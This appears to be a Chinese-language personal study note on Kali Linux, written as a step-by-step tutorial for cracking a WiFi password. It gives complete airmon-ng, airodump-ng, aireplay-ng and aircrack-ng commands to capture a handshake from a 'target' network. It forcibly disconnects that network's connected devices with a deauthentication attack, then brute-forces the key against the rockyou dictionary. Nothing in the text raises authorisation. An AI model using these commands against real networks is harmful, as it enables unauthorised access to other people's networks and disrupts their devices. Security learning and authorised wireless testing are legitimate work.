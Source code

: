 ```yaml
---
title: Kali-Linux学习笔记
description: 老爸想看看，所以总结一下
date: '2020-10-11T19:42:21.000Z'
---
```


# Kali-Linux系统学习记录

> Kali-Linux学习笔记

## 无线wifi密码-暴力破解

### 工具

* 外部设备：无线网卡
* 操作系统：Kali-Linux-2020.3-vmware-amd64

## 步骤

1. 插入“无线网卡”

![](../.gitbook/assets/2020-10-11-20-22-20.png)

![](../.gitbook/assets/2020-10-11-19-58-25.png)

1. 输入`iwconfig` 查看是否存在 `wlan0`
2. 开启监听 `sudo airmon-ng start wlan0`
3. 扫描附近的`wifi`，确定目标`wifi`的MAC地址`BSSID`及频道号`CH`
4. 监听目标wifi，尝试捕获目标wifi的握手包，输入`sudo airodump-ng wlan0mon -c <步骤4的CH> --bssid <步骤4的BSSID> -w <握手包存放位置，例如：~/Documents/wlan/wlan0mon>`，如同，取得已经与目标wifi建立连接的设备的`BSSID`及`STATION`

![](../.gitbook/assets/2020-10-11-21-36-11.png)

1. 由于握手包是设备和wifi之间建立连接时所产生的，因此需要对已经建立与目标wifi连接的设备进行断网攻击（aireplay-ng -0），保留步骤4的终端，打开新终端进行断网攻击，输入：`sudo aireplay-ng -0 <攻击次数，例如：20> -a <步骤4取得的目标WiFi的BSSID> -c <步骤5取得的与目标wifi建立连接的某设备BSSID> wlan0mon`，如图，在最后两次攻击时，目标设置已经与目标wiif断开连接

![](../.gitbook/assets/2020-10-11-21-54-21.png)

1. 等待步骤6的目标设备与目标wifi重新建立连接，其后，回到步骤5的终端，可以看到已经抓取到了握手包

![](../.gitbook/assets/2020-10-11-21-59-56.png)

1. 因为已经抓取到握手包，所以无需再使用无线网卡，可以停止网卡的监听，输入：`sudo airmon-ng stop wlan0mon`
2. 握手包包含设备与wifi的建立连接的验证密钥，因此可对握手包进行暴力破解，输入：`sudo aircrack-ng -a2 -b <步骤4取得的目标WiFi的BSSID> -w <字典位置，例如：~/Documents/rockyou.txt> <握手包存放位置，若使用了步骤5的路径，则是：~/Documents/wlan/*.cap>`

![](../.gitbook/assets/2020-10-11-22-30-12.png)

## tips

* 需要使用无线网卡，最好是能兼容linux免驱动的型号
* 由于是使用暴力破解的方式，因为破解wifi密码的重点在于字典上，需要字典足够大到能包含目标wifi密码，因此需要对字典进行迭代补充

